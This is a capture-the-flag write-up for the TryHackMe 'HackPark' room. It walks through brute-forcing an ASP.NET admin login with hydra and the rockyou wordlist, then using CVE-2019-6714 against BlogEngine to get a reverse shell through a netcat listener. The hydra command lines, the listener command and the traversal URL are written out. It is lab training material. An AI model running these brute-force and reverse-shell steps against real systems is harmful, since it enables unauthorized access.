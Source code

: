 # TryHackme HackPark Writeup

This is a write up for the tryhackme room "HackPark". The first thing you should do is start the room's VM. I prefer to connect through OpenVPN. This allows you to connect natively through your computer's browser. This also allows you to curate your own tools on your computer which can be used for future tasks.

If we navigate to the home page of our server, we are greeted by pennywise. When we press the hamburger icon, we get several options. With one of them being a login. Let's try that since our first task is using hydra to brute force logins. We are redirected to http://10.10.93.133/Account/login.aspx?ReturnURL=/admin/ We can probably assume that the username will be admin. Actually, the first hint tells us that the username is admin. This makes bruteforcing exponentially quicker. This just saves us time, and doesn't necessarily make it any &quoteasier&quot besides the time saving Let's log in with dummy credentials in order to capture all the arguments needed to brute force the credentials. If on firefox or chrome, enter CTRL + SHIFT + I before loggin in and go to the network tab. We notice 5 arguments:

`__VIEWSTATE, __EVENTVALIDATION, ctl00$MainContent$LoginUser$UserName, ctl00$MainContent$LoginUser$Password, ctl00$MainContent$LoginUser$LoginButton`

The first command I tried was:

`hydra -l admin -P ~/tools/rockyou.txt 10.10.181.8 http-post-form`

```
hydra -l admin -P ~/tools/rockyou.txt
10.10.181.8 http-post-form '/Account/login.aspx?
ReturnURL=/admin/:ctl00$MainContent$LoginUser$UserName=^USER^
&ctl00$MainContent$LoginUser$Password=^PASS^:Login failed
```

The reason I used this command is because in the past, I've only supplied the needed arguments for username and password. This didn't end up working, so that means that we should provide all of them.

Second Attempt:

`hydra -l admin -P ~/tools/rockyou.txt 10.10.181.1 http-post-form`

```
hydra -l admin -P
~/tools/rockyou.txt 10.10.181.1 http-post-form
'/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=*LONGVALUE* &__EVENTVALIDATION=*LONGVALUE*
&ctl00%24MainContent%24LoginUser%24UserName=^USER^
&ctl00%24MainContent%24LoginUser%24Password=^PASS^ &ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
```

This also didn't work! What gives? I was still getting false positives. Hydra was saying that all of its attempts were validating successfully. Then, I noticed that the arguments have odd characters. I decided to URL encode some of the funny characters that may be interfering with hydra. Third command:

`hydra -l admin -P ~/tools/rockyou.txt 10.10.93.133 http-post-form`

```
hydra -l admin -P ~/tools/rockyou.txt 10.10.93.133 http-post-form
'/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=*LONGVALUE* &__EVENTVALIDATION=*LONGVALUE* &ctl00%24MainContent%24LoginUser%24UserName=^USER^
&ctl00%24MainContent%24LoginUser%24Password=^PASS^
&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
```

Success finally! We got the credentials and we can login to the admin portal. Once we log in, we can see that Blog Engine v3.3.6.0 is running. We search exploit db, and we see that we have a LFI + RCE vulnerabilty with CVE-2019-6714. This script is located inexploit db, a site you should get accustomed with. The instructions mention that all we need for this to work is to
Set up a netcast listener command: nc -lvnp 4445
Download the file and edit the method to point to your ip connected to the tryhackme vpn.
Edit the post. Click on the icon with the open folder to uplooad this document. Ensure it is titled PostView.ascx.
Navigate to http://10.10.93.133/?theme=../../App_Data/files
You should have received a connection and now have a reverse shell!
Happy hacking!
